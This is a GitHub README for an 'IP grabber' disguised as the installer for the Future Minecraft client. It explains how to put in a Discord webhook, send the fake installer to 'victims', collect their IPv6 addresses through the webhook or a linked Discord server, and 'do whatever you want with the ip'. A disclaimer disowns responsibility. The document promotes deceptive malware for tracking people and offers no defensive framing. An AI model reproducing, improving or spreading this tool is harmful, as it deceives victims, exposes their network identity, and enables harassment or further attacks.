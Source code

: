 
<h1 align="center">Future client ip grabber</h1>
<h3 align="center">If someone wants Future client for free, send them this, it has the same GUI as Future installer. Grabs victims IPv6 address and sends it through a discord webhook.
</h3>

## Usage

1. Go to releases tab and search for `https://github.com/Doundeway/Future-ip-grabber/releases/tag/1.0`
2. Paste your webhook into `sender webhook = new sender("https://discord.com/api/webhooks/{your webhook id}");`
3. Send it to your victim or victims
4. Join this discord server to see your victims ip `https://discord.gg/TbpbZ5Xnss`(if you decide to use the default webhook url)
5. Do whatever you want with the ip



## Disclaimer 

Any malicious usage with this code isnt our fault. You are responsible for your own actions.
